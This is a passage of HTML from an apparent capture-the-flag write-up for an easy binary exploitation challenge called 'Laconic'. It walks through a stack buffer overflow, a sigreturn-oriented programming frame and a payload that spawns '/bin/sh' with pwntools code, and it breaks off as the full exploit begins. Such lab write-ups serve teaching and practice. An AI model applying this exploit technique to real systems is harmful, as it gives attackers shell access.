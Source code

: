     </div>
</section>
</section>



<section id="back">
<section id="blueback" class="container">
    <div id="laconic" class="challenge-section">
        <div class="section-content">
            <b>Name:</b> <span class="text"> Laconic </span><br>
            <b>Category:</b> Binary Exploitation <br>
            <b>Difficulty:</b> Easy <br>
            <p>
               <br> In this challenge, we analyze a binary with a **stack buffer overflow** vulnerability. Our goal is to exploit the lack of **stack protections**, leverage **Sigreturn Oriented Programming (SROP)**, and execute **execve("/bin/sh")** to gain a shell.
            </p>
        </div>
        <div class="section-content">
            <h2>Initial Analysis</h2>
            <h5>Checksec Findings</h5>
            <pre><code class="language-bash">checksec --file=laconic</code></pre>
        <h3>Security Features</h3>
        <ul>
            <li><b><code>No PIE</code>:</b> The binary loads at a fixed address.</li>
            <li><b><code>No Stack Canary</code>:</b> No protection against buffer overflows.</li>
            <li><b><code>NX Disabled</code>:</b> We can execute shellcode on the stack.</li>
            <li><b><code>No RELRO</code>:</b> The GOT is writable.</li>
        </ul>
<pre><code class="language-python">RELRO        STACK CANARY      NX       PIE    
No RELRO     No Canary        NX Disabled   No PIE</code></pre>
</div>
        <div class="section-content">
            <h3>Exploitation Plan:</h3>
            <ol>
                <li><b>Trigger Stack Buffer Overflow:</b> Overflow the buffer to gain control over execution.</li>
                <li><b>Utilize SROP Technique:</b> Use the **pop rax** gadget to set up a fake sigreturn frame.</li>
                <li><b>Execute execve("/bin/sh"):</b> Modify registers to execute a system shell.</li>
            </ol>
        </div>
        <div class="section-content">
            <h3>Exploit Development</h3>
            <h4>Step 1: Locate Useful Gadgets</h4>
            <pre><code class="language-python">pop_rax = 0x0000000000043018  # Pop value into RAX
syscall = 0x0000000000043015  # Syscall instruction</code></pre>
            <h4>Step 2: Construct Sigreturn Frame</h4>
            <pre><code class="language-python">frame = SigreturnFrame()
frame.rax = 59  # execve syscall
frame.rdi = bin_sh  # Pointer to /bin/sh
frame.rsi = 0
frame.rdx = 0
frame.rip = syscall</code></pre>
            <h4>Step 3: Send Exploit Payload</h4>
            <pre><code class="language-python">payload = b'A'*8 + pack(pop_rax) + pack(15) + pack(syscall) + bytes(frame)
io.sendline(payload)</code></pre>
        </div>
        <div class="section-content">
            <div class="h4-wrapper">
        <h4>Complete Exploit:</h4>
             <button class="copy-btn">Copy</button>
    </div><pre><code class="language-python" >#!/usr/bin/env python3
from pwn import *